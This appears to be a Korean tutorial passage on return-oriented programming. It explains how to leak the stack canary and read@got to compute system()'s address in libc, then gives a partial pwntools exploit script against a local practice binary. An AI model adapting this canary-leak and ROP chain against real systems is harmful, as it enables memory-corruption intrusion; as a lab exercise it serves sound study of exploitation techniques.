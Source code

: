 <img src="/images/2024-04-06-Return Oriented Programming/image-20240407014134580.png" alt="image-20240407014134580" style="zoom:50%;" />

<br/>

### system 함수의 주소 계산 

- read 함수의 got를 읽고, read 함수와 system 함수의 오프셋을 이용하여 system 함수의 주소를 계산해야 함
- pwntools 도구에는 ELF.symbols이라는 메소드가 정의되어 있는데, 특정 ELF에서 심볼 사이의 오프셋을 계산할 때 유용하게 사용할 수 있음 
- ubuntu 22.04에서 동일한 옵션에서 컴파일해도 ROP 가젯이 없는 경우가 존재하는데, Glibc 2.3.4 버전 이상은 버전 이하에서 프로그램을 초기화하는 과정에서 `__libc_csu_init()`이 호출되는데 여기에 ROP 공격에 유용한 가젯이 포함되기 때문에 우분투 22.04 버전은 존재하지 않을 수 있음 
- 아래 소스 코드를 살펴보면 2번째 입력 부분에 스택 버퍼오버플로우 취약점이 존재하고, pwntools 도구의  ELF를 이용해 바이너리 ELF를 이용해서 read, write의 plt와 got를 구하고 인자가 rdi, rsi, rdx, rcx, r8, r9, r15 순으로 들어가기 때문에 rdi와 rsi, r15의 리턴 가젯을 구한 후 write의 plt를 사용해 인자를 payload에 설정하고 read@got 값을 화면에 써서 출력한다. 
- 다음으로 read@got 값과 원래 있는 라이브러리 read의 주소의 차이를 구하고 이 차이만큼 system 라이브러리에 더해서 system@got까지 구할 수 있다. 

```python
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./rop')
e = ELF('./rop')
libc = ELF('./libc.so.6')

# [1] Leak canary
buf = b'A'*0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
pop_rdi = 0x0000000000400853
pop_rsi_r15 = 0x0000000000400851

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8

# write(1, read_got, ...)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
```